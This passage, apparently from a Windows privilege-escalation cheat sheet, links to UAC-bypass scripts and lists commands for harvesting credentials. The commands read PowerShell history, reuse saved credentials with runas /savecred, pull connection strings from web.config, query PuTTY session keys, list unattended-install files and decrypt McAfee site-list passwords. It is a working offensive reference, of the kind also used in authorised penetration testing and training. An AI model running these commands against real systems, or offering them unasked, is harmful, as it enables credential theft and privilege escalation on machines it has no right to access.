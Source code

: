 https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1

#### FodhelperBypass

https://raw.githubusercontent.com/winscripting/UAC-bypass/master/FodhelperBypass.ps1

### Capturing configuration file credentials

- Powershell History  

```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

- EXploiting Saved Windows Credentials

```powershell
cmdkey /list  
runas /savecred /user:admin cmd.exe
```

- IIS Configuration  

```powershell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString  
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
  
- Retrieve Credentials from Software: PuTTY  

```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

- Unattended Windows Installations

```cmd
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
  
- Identify  

```cmd
dir /s *.db
```

- McAfee Enterprise Endpoint Security - Credentials used during installation  

```cmd
C:\ProgramData\McAfee\Agent\DB\ma.db
sqlitebrowser ma.db
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
```

https://raw.githubusercontent.com/funoverip/mcafee-sitelist-pwd-decryption/master/mcafee_sitelist_pwd_decrypt.py

